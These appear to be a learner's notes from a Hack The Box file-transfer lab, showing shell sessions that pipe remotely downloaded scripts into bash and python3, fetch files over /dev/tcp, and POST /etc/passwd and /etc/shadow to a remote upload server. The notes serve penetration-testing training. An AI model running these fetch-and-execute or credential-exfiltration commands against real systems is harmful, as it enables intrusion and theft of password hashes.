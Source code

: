 * most malware on all different operating systems uses `HTTP` and `HTTPS` for communication.

### useful example of piping in linux & stdin stdout

#### Fileless Download with cURL
* notice the pipe to python3 & bash?
```shell-session
canklesmaks@htb[/htb]$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
Similarly, we can download a Python script file from a web server and pipe it into the Python binary. Let's do that, this time using `wget`.
#### Fileless Download with wget
```shell-session
canklesmaks@htb[/htb]$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3

Hello World!
```
---
# Exec
	In computing, exec is a functionality of an operating system that runs an executable file in the context of an already existing process, replacing the previous executable. This act is also referred to as an overlay. It is especially important in Unix-like systems, although it also exists elsewhere.
## Download with Bash (/dev/tcp)
#### Connect to the Target Webserver
```shell-session
canklesmaks@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
```
#### HTTP GET Request
```shell-session
canklesmaks@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
#### Print the Response
```shell-session
canklesmaks@htb[/htb]$ cat <&3
```
#### SSH downloads
 * you can use SCP (secure copy) over ssh to download files.
 ```shell-session
canklesmaks@htb[/htb]$ scp plaintext@192.168.49.128:/root/myroot.txt . 
```
* you can also start an upload server.
```shell-session
canklesmaks@htb[/htb]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
#### Linux - Upload Multiple Files

```shell-session
canklesmaks@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

We used the option `--insecure` because we used a self-signed certificate that we trust.